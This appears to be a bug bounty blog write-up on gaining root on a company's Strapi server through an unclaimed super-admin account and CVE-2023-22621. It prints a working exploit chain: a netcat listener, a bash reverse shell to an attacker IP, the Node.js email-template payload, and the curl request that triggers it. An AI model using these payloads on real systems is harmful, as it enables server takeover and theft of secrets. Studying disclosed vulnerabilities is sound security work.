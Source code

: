```yaml
---
title: "Remote code execution in a billion-dollar publicly traded company"
date: 2024-02-10T21:43:57+08:00
author: ted
draft: true
---
```


There are 4 things that have to happen in order to find [CVE-2023-22621](https://nvd.nist.gov/vuln/detail/CVE-2023-22621) in the wild:
 
- You need to find a website that is powered by [Strapi](https://strapi.io).
- The _super admin_ for this website, _somehow_, **has not been claimed yet**.
- The version of Strapi should be _at least_ **4.5.5 and below**.
- No other hacker had _somehow_ seen any of the three aforementioned scenarios first.

The stars have aligned in my favor, and with this [CVE](https://en.wikipedia.org/wiki/Common_Vulnerabilities_and_Exposures), I managed to fully take over one of the websites of a **billion-dollar company listed on the New York Stock Exchange**.

And I happen to be invited to their private [bug bounty program](https://en.wikipedia.org/wiki/Bug_bounty_program).

# Reconnaissance

I have a server that pings me of new subdomains of this company every 5pm Manila time so I can check them out after work.

Usually I don't find anything in my probes, and this one: **strapi.[redacted].com** also didn't trigger any alarms at first.
My automations pinged me about the subdomain of this website around early December 2023, but this website caught my attention during a manual inspection of the company assets that I did around early February 2024.

I couldn't believe it at first, but the _super admin_ registration for this website was open. And _somehow_, no other hacker had seen this before me:

![Admin Registration](/admin-registration.PNG)

Realizing this was nothing short of exhilarating, since it’s been months since I got a paid bug bounty.

# Escalation

Claiming the super admin of a website is nice and dandy, but like most other security researchers, I asked myself: "How can I escalate this to something even more severe?".

The next step was obvious; I googled 'strapi cve'. One particular CVE instantly caught my attention: **[CVE-2023-22621](https://nvd.nist.gov/vuln/detail/CVE-2023-22621)** which allows for an authenicated user to execute the highly coveted **[_remote code execution_](https://en.wikipedia.org/wiki/Arbitrary_code_execution).**

The CVE ticks all of the boxes:
- You need to have super admin access (I got that) ✔
- The version of Strapi should be 4.5.5 and below (This website is on Strapi v3.6.0) ✔

# Exploitation

The CVE allows for a remote code execution via a [reverse shell](https://wiki.ubuntu.com/ReverseShell), which requires an attacker server waiting for incoming TCP connection from a victim server.

## Preparing the attacker server

I whipped up a small Digital Ocean droplet and using [netcat](https://en.wikipedia.org/wiki/Netcat) I had it listen to incoming TCP connections in port `1234`:

```sh
$ nc -lvnp 1234
```

- `-l` Instructs `netcat` to listen for incoming TCP connection rather than initiating a connection to a remote host.
- `-v` Produces more verbose output.
- `-n` Toggles `netcat` to not do any DNS or service lookups.
- `-p` Specifies the port to listen to.

## Executing the reverse shell payload

The reverse shell payload that worked for me after initial tests in my local network was the following:

```sh
bash -c 'bash -i >& /dev/tcp/[MY_ATTACKER_IP]/1234 0>&1'
```

Combining this with the NodeJs exploit described in the CVE, we get the following payload:

```js
<%= `${ process.binding("spawn_sync").spawn({"file":"/bin/bash","args":["/bin/bash","-c","bash -c 'bash -i >& /dev/tcp/[MY_ATTACKER_IP]/1234 0>&1'"],"stdio":[{"readable":1,"writable":1,"type":"pipe"},{"readable":1,"writable":1,"type":"pipe"/*<>%=*/}]}).output }` %>
```

Now, [CVE-2023-22621](https://nvd.nist.gov/vuln/detail/CVE-2023-22621) exploits an email template bypass in Strapi. Simply put, it runs when an attempt to send an email is sent. The initial configuration of Strapi allows admins to update the email confirmation template. This is where the payload is saved:

![Strapi RCE payload](/strapi-rce-payload.PNG)

## Spawning a shell as `root` in the compromised server

This exploit runs when a confirmation email is sent, so an API call that registers a new user to Strapi in order to execute the reverse shell is necessary. This is a basic cURL command for that purpose:

```sh
$ curl -vvv -X POST -H 'Content-Type: application/json' -d '{"email":"tedminfosec+rce1@gmail.com", "username":"rcetrigger1", "password": "Test1234!"}' https://strapi.[redacted].com/auth/local/register/
```

Upon execution of the cURL command, Strapi attempts to validate the email template. The exploit then takes advantage of a template validation bypass and runs the reverse shell payload via `node`. The reverse shell then initiates a TCP connection to my attacker server, which spawns a `bash` session.

Now, the attacker machine has logged in to the server as `root`, **giving me total control of the server**:

```sh
root@[redacted]:/home/[redacted]/project/strapi# ls
ls
api    config      favicon.ico   package.json  README.md
build  extensions  node_modules  public        yarn.lock
```

In order to prove the RCE, I left an inconspicuous text file in the server at `/root/tedminfosec.txt`:

```sh
root@[redacted]:/home/[redacted]/project/strapi# cat /root/tedminfosec.txt
hello from tedminfosec@wearehackerone.com
```

# Impact

Without disclosing too much about the compromised server, it contains highly sensitive keys and secrets that could have allowed a malicious actor to pivot to other, more sensitive assets in the company's internal network.

The malicious actor could have done more than just defacing a website or use it to launch phishing campaigns.

Since privilege escalation at this point would break the _rules of engagement_, I decided to stop testing from there.

# Responsible disclosure

Once that's done, I took my time to write a detailed vulnerability report and submitted it to the bug bounty program. It was triaged as **Critical**:

![Strapi RCE triage](/strapi-rce-triage.jpg)

Now that's how I compromised a server of a company worth more than a billion dollars.